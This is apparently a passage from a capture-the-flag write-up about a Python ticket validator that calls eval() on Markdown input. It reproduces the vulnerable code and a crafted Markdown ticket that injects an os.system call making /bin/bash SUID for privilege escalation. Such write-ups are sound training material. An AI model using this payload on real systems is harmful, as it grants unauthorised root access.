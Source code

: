 ![cat_ticketvalidator](screenshots/cat_ticketvalidator.png)

It evaluates Markdown files, using dangerous `eval()`:

```python
if int(ticketCode) % 7 == 4:
    validationNumber = eval(x.replace("**", ""))
    if validationNumber > 100:
        return True
```

We can exploit this by creating a malicious Markdown:

```markdown
# Skytrain Inc
## Ticket to 
__Ticket Code:__
** 11 + 2 and __import__('os').system('chmod u+s /bin/bash')
```
